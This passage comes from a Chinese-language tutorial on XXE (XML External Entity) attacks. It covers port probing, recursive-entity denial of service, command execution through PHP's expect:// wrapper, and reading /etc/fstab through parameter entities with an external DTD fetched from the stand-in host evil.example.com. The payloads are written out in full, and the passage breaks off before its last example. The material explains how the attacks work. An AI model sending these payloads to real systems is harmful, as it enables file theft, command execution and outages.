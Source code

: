 还是在本地进行测试，在攻击者发送url请求时会有三种可能发生的情况：
1、![此处输入图片的描述][5]
可以看到报错中无其他信息，此时端口未开启。
2、正常回显
![此处输入图片的描述][6]
此时端口开启。
3、![此处输入图片的描述][7]
![此处输入图片的描述][8]
此时端口开启。

五、拒绝服务
======
![此处输入图片的描述][9]

任何能大量占用服务器资源的方法都可以造成 DoS，这个的原理就是递归引用

lol 实体具体还有 "lol" 字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个 "lol" 了，以此类推，lol9 实体含有 10^8 个 "lol" 字符串…

那么，引用 lol9，boom…
经虚拟机测试，直接占满cpu，只能重启。
当然还有很多方法。。。

六、系统命令执行
========

PHP的Expect扩展：pecl install expect

    <!DOCTYPE root 
    [<!ENTITY foo SYSTEM "expect://id">]>
    <methodCall>
    <methodName>&foo;</methodName>
    </methodCall>

上面是在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。

七、参数实体
======

    <!ENTITY % start "<![CDATA[">
    <!ENTITY % goodies SYSTEM "file:///etc/fstab">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://evil.example.com/combine.dtd">
    <!ENTITY all "%start;%goodies;%end;">
    
其实流程很简单：

    start 参数实体的内容： <! [CDATA[
    
    goodies 参数实体的内容： file:///etc/fastab （使用 file 协议读取文件）
    
    end 参数实体的内容：]]>
    
    然后接着定义了一个 dtd 参数实体，使用 SYSTEM 发出获取 combine.dtd 的内容

最后，再由源文件中引用 all 普通实体引发文件读取：


  [1]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210135808.png
  [2]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210135910.png
  [3]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210154732.png
  [4]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210154933.png
  [5]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211131939.png
  [6]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211132137.png
  [7]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133129.png
  [8]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133154.png
  [9]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133946.png